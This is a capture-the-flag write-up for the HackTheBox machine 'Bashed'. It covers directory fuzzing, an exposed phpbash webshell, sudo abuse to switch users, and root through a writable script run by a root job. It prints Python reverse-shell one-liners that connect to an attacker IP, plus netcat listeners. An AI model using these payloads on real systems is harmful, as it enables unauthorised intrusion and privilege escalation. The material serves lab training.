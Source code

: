 # Bashed: 10.10.10.68

## Hints

- Google helps find the application source code on GitHub
- Directory fuzzing is your friend
- No privesc tools needed, just some basic commands and Linux file system knowledge

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

## 80: Recon + Gobuster

Had a quick look around the website. Not much happening. No user input avenues.

![Home page of Bashed](screenshots/phpbash.png)

Tried to find interesting files on the web server using `gobuster`. Since there is `php` mentioned on the web page, specified `gobuster` to look for `php` extensions.

```
└─$ gobuster dir -t 20 -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]    
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]    
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]     
/config.php           (Status: 200) [Size: 0]                                    
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/] 
```

## 80: dev/

The `dev` folder was found by `gobuster`... looks interesting and provides a directory listing.

![Directory index of dev](screenshots/dir_listing_dev.png)

Browsing to `http://10.10.10.68/dev/phpbash.php` provides a webshell as the `www-data` on the `bashed` machine.

![Bashed webshell](screenshots/phpbash_shell.png)

## Flag: User

Looking at the `home` directory, and the `/etc/passwd` file - there are two users.

```
www-data@bashed:/var/www/html/dev# ls /home/
arrexel
scriptmanager
```

And the user flag is in the `arrexel` folder.

```
www-data@bashed:/var/www/html/dev# ls -lisa /home/arrexel
total 36
6314 4 drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
12  4 drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
3099 4 -rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
14114 4 -rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
14113 4 -rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
14115 4 drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
3098 4 drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
6315 4 -rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
14117 0 -rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
3100 4 -r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
```

Checking the character count of the `user.txt` file.

```
www-data@bashed:/var/www/html/dev# wc -c /home/arrexel/user.txt
33 /home/arrexel/user.txt
```

## 80: Webshell

Getting tired of this webshell, let's get something better. Use Python to get a reverse shell.

```
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.56",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And set up the listener on my system:

```
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.68] 35882
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Scriptmanager

Another user exists on the system. Found by checking `/etc/passwd` or viewing the `/home` directory. Turns out you can just change the user to the `scriptmanager` user without a password.

```
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:                            
    env_reset, mail_badpass,                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So switch to the `scriptmanager` user.

```
$ sudo -i -u scriptmanager
sudo -i -u scriptmanager
scriptmanager@bashed:~$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

## Flag: Root

After a browse around, easy to see the `/scripts` folder looks out of place.

```
scriptmanager@bashed:~$ ls -lisa /scripts
ls -lisa /scripts
total 20
393492 4 drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  9 10:31 .
     2 4 drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
401540 4 -rw-r--r--  1 scriptmanager scriptmanager  215 Jun  9 10:29 test.py
393805 4 -rw-r--r--  1 root          root            12 Jun  9 09:29 test.txt
```

In addition, the output from `linpeas` showed a recently modified file in the same folder. This was how I found this directory.

```
[+] Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt
```

Leverage the same Python reverse shell as before, this time changing the port number.

```
echo 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.56",9002));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")' > test.py
```

And set up a listener on the attacker's system.

```
┌──(thomas㉿kali)-[~/machines/bashed]
└─$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.68] 55842
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Finally, check the character count of the `root.txt` file.

```
# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```

Done!

## Lessons Learned

- Getting a fully interactive shell with ZSH is a little funky

```bash
python -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg  # This is the important/different line
ENTER
ENTER
```

## Useful Resources

- [HackTheBox Bashed - ippsec](https://www.youtube.com/watch?v=2DqdPcbYcy8)
- [HackTheBox (HTB): Bashed Walkthrough by Danish Zia](https://danishzia.medium.com/hackthebox-htb-bashed-walkthrough-ab402b9f4715)
- [HTB: Bashed by 0xdf](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html)
